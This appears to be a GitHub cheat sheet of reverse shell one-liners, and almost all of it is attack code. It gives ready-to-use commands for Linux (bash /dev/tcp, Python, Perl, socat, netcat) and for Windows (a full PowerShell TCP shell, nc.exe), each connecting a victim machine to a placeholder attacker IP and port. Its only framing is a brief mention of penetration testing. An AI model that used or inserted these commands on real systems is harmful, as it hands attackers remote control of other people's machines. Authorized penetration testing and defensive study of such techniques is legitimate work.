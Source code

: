 A reverse shell is a connection established from the victim's machine back to the attacker's machine, enabling remote control. This is a key technique in penetration testing and post-exploitation, often bypassing firewalls that block incoming connections.

## Common Reverse Shell Commands

#### Linux Reverse Shells

1. **Bash Reverse Shell**
```bash
bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1
```

2. **Python Reverse Shell**
```bash
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("<attacker_ip>",<attacker_port>)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh"])'
```

3. **Perl Reverse Shell**
```bash
perl -e 'use Socket;$i="<attacker_ip>";$p=<attacker_port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


4. **Socat Reverse Shell**
```bash
socat TCP:<attacker_ip>:<attacker_port> EXEC:/bin/sh
```


5. **Netcat Reverse Shell**
```bash
nc -e /bin/sh <attacker_ip> <attacker_port>
```

#### Windows Reverse Shells

1. **PowerShell Reverse Shell**
```bash
$client = New-Object System.Net.Sockets.TCPClient("<attacker_ip>",<attacker_port>); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2  = $sendback + "PS " + (pwd).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}
```

2. **Netcat Reverse Shell**
```bash
nc.exe -e cmd.exe <attacker_ip> <attacker_port>
```

3. **Python Reverse Shell**
Same as the Linux Python example, but ensure Python is installed on the Windows target.

